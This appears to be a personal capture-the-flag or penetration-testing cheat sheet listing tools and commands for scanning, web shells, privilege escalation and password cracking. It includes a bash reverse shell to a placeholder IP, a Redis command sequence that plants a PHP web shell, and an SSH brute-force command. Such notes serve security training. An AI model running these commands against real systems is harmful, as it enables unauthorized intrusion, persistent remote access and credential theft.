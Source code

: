 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
        - `-p 1000-9999` : Scan port from 1000 to 9999 
- enum4linux
    - Parameters
        - `-a` : Do all simple enumeration
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### PHP
- Bypass `system`
	- `echo passthru("whoami")`
	- `echo shell_exec("whoami")` 
	- `echo exec("whoami")`
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
- [windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)

#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
    	- Write file in local first, and use wget/curl to get to victim machine
- Make it moreinteractively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
### Redis
- Write shell / file
	- `redis-cli -h {ip} `
		- Connect
	- `config set dir "/var/www/html"`
		- Set dir
	- `config set dbfilename meow.php`
		- Set file name
	- `set x "\r\n\r\n<?php system($_GET[A]);?>\r\n\r\n"`
		- Write web shell
	- `save`
		- Save file
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng) , [LinEnum](https://github.com/rebootuser/LinEnum)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process

### SOP
- Check `sudo -l`
	- What file we can run as super user 
- Check crontab
	- With LinEnum, LinPeas
	- PsPy check
- Check suid
	- [xxd](https://gtfobins.github.io/gtfobins/xxd/#suid)
		- Can `cat /etc/shadow`
- Check sudo version
	- [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
		- sudo < 1.2.28
## Password Crack
### Software
- Hydra
    - Crack online services password
        - SMB,SSH,FTP......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like `/etc/shadow`
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
        - zip2john
        - samdump2
        	- NTLM 2 John
        	- `samdump2 system sam > j.txt`
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists
	- [xato-net-10-million-passwords-dup.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-dup.txt)
### Online
- https://crackstation.net/

## Software
- RDP
	- `xfreerdp +drives /u:{username} /v:{ip}:{port}`
- FTP
	- `ls`
	- `get {file_name}`
	- `put {file_name}`
## Forensics
- Unknown files
	- `file {file_name}`
	- `binwalk {file_name}`
	- `xxd {file_name}`
### Steganography
- [stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)
- [zsteg](https://github.com/zed-0xff/zsteg)
- [steghide](http://steghide.sourceforge.net/)
	- `steghide extract -sf {file_name}`
